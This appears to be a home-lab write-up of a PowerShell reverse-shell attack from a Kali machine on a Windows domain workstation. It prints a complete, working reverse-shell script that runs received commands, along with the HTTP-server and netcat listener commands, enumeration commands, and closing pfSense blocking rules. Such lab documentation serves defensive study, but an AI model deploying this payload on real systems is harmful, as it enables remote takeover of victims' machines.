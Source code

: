 
# Reverse Shell Backdoor with Powershell Cradle Attack

## Overview

- **Target:** Windows Workstation (SOC.LAB domain)
  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB
- **Attacker:** Kali «
  - **IP Address:** 192.168.20.30

## Objective
Create and deploy a malicious PowerShell script to establish a reverse shell on a Windows workstation. The attacker uses Kali Linux to serve the payload and capture the connection, giving them remote access to the Windows's machine.

## Attack Execution Timeline

### 1. **Create Malicious PowerShell Payload**

Firstly, I created a malicious PowerShell script (`malicious.ps1`) that establishes a reverse shell back to my Kali's machine, based on this [git](https://github.com/das-lab/mpsd) and [post](https://learn.microsoft.com/en-us/defender-endpoint/run-detection-test?source=recommendations&view=o365-worldwide):

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.20.30", 4444)
$stream = $client.GetStream()
$writer = New-Object System.IO.StreamWriter($stream)
$reader = New-Object System.IO.StreamReader($stream)

# Send a message to confirm the connection
$writer.WriteLine("Connected to backdoor!")
$writer.Flush()

while ($true) {
    # Receive command from the attacker
    $command = $reader.ReadLine()
    
    # If the command is "exit", close the connection
    if ($command -eq "exit") {
        break
    }
    
    # Execute the command on the Windows machine and capture output
    $output = Invoke-Expression $command 2>&1
    
    # Send the output back to the attacker
    $writer.WriteLine($output)
    $writer.Flush()
}

# Close the connection
$client.Close()
```

### 2. **Set Up HTTP Server to Serve Payload**

Once the payload script was created, I hosted an HTTP web server just to simulate the Windows user to download malware through a link. Meanwhile I used Netcat to listen for an incoming connection from the reverse shell:
```bash
python3 -m http.server 80
```
```bash
nc -lvnp 4444
```

### 4. **Victim Downloads and Executes the Malicious Payload**

After the Windows user has downloaded and executed the malicious payload,it bypasses the PowerShell execution policy and downloads the malicious script from the attacker’s web server to the target machine. Once executed, the script initiates the reverse shell and connects back to my kali’s machine.

### 5. **Execute Commands on the Target Machine**

After successfully establishing the reverse shell, I could run every command that i wanted to on that Windows machine or gather information about the system. Some useful commands executed during the attack include:

- **`whoami`** – To confirm the user currently logged in:
  ```bash
  whoami
  ```

- **`tasklist`** – To list all running processes:
  ```bash
  tasklist | Out-String
  ```

- **`net user`** – To list all user accounts on the system:
  ```bash
  net user | Format-Table
  ```

- **`net user labadmin`** – To get detailed information about the `labadmin` user:
  ```bash
  net user labadmin
  ```


## PfSense Configuration

###1- Block Unauthorized Outbound Traffic (Reverse Shell Protection)
1. **Action:** Block
2. **Interface:** LAN
3. **Source:** Internal_Systems
4. **Destination:** Any
5. **Destination Port:** 4444 (or other suspicious ports)
6. **Protocol:** TCP

**Explanation:**  
Reverse shells typically use common TCP ports (like 4444) to establish outbound connections to an attacker’s machine, this rule blocks these outbound connections, preventing compromised systems from connecting back to kali.


###2- Restrict PowerShell Downloads
1. **Action:** Block
2. **Interface:** LAN
3. **Source:** Any
4. **Destination:** Any
5. **Destination Port:** 80, 443 (HTTP/HTTPS)
6. **Advanced Options:** Application: PowerShell (requires Snort/Suricata)

**Explanation:**  
PowerShell cradle attacks often download scripts via HTTP/HTTPS. This rule blocks PowerShell from making external web requests, mitigating PowerShell-based malware delivery.


Note: In this experiment, CrowdSec was disabled to allow this action to proceed, but the rules are on the [configs directory](https://github.com/NunooFerreira/SOC-Lab-Home-Cybersecurity-Monitoring/blob/main/configs/CrowdSec_configs/custom_reverse_powershell.yaml).


